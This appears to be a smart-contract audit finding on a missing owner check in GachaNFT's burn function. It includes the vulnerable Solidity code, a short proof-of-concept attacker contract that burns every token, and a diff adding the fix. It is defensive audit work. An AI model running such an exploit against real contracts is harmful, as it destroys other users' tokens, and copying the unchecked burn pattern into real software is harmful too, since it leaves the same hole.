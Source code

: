 
### Malicious user can burn anyone's token without their approval which completely breaks the functionality of the protocol

**Description:** The `GachaNFT::burn` function is neither protected by owner privileage modifier like `onlyOwner` nor it checks whether the `tokenId` belongs to the caller of the function. This will ultimately leads to any malicious user calling this function until they burn all the token of the contract, which significantly breaks the functionality and leads huge loss to the user. Moreover, it discourages the future-users to interact with this protocol making this dead contract.
The malicious actor gets the required information about all the tokens using the `GachaNFT::getAllNFTs` function.

```javascript
     function getAllNFTs() public view returns (NFTInfo[] memory) {
@>        return minted; 
    }

```

```javascript
@>    function burn(uint256 tokenId) public { 
        _burn(tokenId);
    }
```

**Impact:** 

Malicious user can burn every token of the contract making this contract tokenless.

**Proof of Concept:** 

A malicious user can exploit this vulnerabilty using the below contract:

```javascript

import "./GachaNFT.sol";

contract MaliciousActor {

    GachaNFT public gachaNFT;

    constructor(address _gachaNFTAddress) {
        gachaNFT = GachaNFT(_gachaNFTAddress);
    }

    function exploitBurn() public {
        GachaNFT.NFTInfo[] memory allNFTs = gachaNFT.getAllNFTs();

        for (uint256 i = 0; i < allNFTs.length; i++) {
            gachaNFT.burn(allNFTs[i].tokenId);
        }
    }
}

```

**Recommended Mitigation:** 

Place the following code in `GachaNFT.sol` contract.

```diff
    function burn(uint256 tokenId) public {
+    address owner = ownerOf(tokenId);
+    require(msg.sender == owner, "Caller is not the owner of this Token");
    
    _burn(tokenId);
    }
```
